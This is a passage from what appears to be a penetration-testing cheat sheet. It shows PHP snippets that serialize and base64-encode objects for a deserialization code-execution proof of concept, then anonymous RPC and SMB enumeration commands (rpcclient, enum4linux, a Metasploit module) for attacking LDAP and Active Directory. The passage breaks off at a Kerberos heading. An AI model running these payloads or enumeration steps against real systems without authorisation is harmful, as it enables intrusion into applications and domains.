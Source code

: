 ```php
$payload = base64_encode(serialize($payload));
print($payload);
```

##### construct() & destruct() function code execution

```php
<?php
namespace App\Service;
class Logger
{
    private $log_me;
    function __construct($log_me)
    {
        $this->log_me = $log_me;
    }
}
echo base64_encode(
    serialize(
        new Logger("echo 'hello from the other side' > /tmp/poc_unserialize")
    )
);
```

## Pentesting LDAP

Collection of method & path to pentest LDAP service.

You can find [here](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg) a SVG Mindmap that describe paths to the Domain Admin. A saved version can be found at [./files/pentest_ad_dark_2022.svg](./files/pentest_ad_dark_2022.svg)

### LDAP Recon

#### Throught RPC

Check if we can connect into RPC in anonymous.

```bash
rpcclient -U '' -N <IP>
```

If we got an access run `enum4linux` to enumerate users, groups, shares, etc

```bash
enum4linux <IP>
```

#### Throught SMB

**Metasploit modules**
- auxiliary/scanner/smb/smb_lookupsid : sids lookup

#### Throught Kerberos
